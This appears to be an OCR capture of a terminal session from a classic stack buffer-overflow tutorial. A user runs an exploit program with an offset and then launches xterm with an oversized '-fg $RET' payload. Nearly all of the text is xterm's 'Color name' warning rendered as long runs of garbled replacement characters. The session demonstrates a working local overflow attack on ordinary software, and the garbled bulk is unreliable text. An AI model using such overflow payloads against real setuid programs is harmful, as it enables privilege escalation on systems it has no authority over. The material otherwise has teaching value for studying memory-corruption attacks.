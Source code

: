 	[aleph1]$ export DISPLAY=:0.0
	[aleph1]$ ./exploit4 2148
	Using address: 0xbffffdb0
	[aleph1]$ /usr/X11R6/bin/xterm -fg $RET
	Warning: Color name
	"��������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������








	���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������








	���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������








	���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������








	���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������








	���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������








	���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������

